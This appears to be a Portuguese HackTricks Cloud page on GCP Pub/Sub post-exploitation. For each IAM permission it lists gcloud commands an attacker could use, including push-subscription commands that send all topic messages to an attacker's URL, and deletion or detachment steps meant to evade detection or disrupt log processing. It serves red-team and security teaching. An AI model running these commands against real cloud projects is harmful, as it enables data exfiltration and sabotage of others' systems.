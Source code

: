 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Aprenda e pratique AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Pub/Sub

Para mais informações sobre Pub/Sub, confira a seguinte página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publicar uma mensagem em um tópico, útil para **enviar dados inesperados** e acionar funcionalidades inesperadas ou explorar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para impedir que uma assinatura receba mensagens, talvez para evitar detecção.\
É possível excluir um tópico mesmo com assinaturas anexadas a ele.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Use esta permissão para atualizar algumas configurações do tópico para interrompê-lo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Dê a si mesmo permissão para realizar qualquer um dos ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtenha todas as mensagens em um servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crie uma assinatura e use-a para **puxar mensagens**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Excluir uma assinatura** pode ser útil para interromper um sistema de processamento de logs ou algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Use esta permissão para atualizar alguma configuração para que as mensagens sejam armazenadas em um local que você possa acessar (URL, Big Query table, Bucket) ou apenas para interrompê-lo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Conceda a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Anexe um schema a um tópico para que as mensagens não o cumpram e, portanto, o tópico seja interrompido.\
Se não houver nenhum schema, você pode precisar criar um.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Isso pode parecer que ao deletar um schema você será capaz de enviar mensagens que não cumprem com o schema. No entanto, como o schema será deletado, nenhuma mensagem entrará de fato no tópico. Então isso é **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Conceda a si mesmo as permissões necessárias para realizar qualquer um dos ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Isso criará um snapshot de todas as mensagens não confirmadas e as colocará de volta na assinatura. Não é muito útil para um atacante, mas aqui está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo no Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo no telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
{% endhint %}
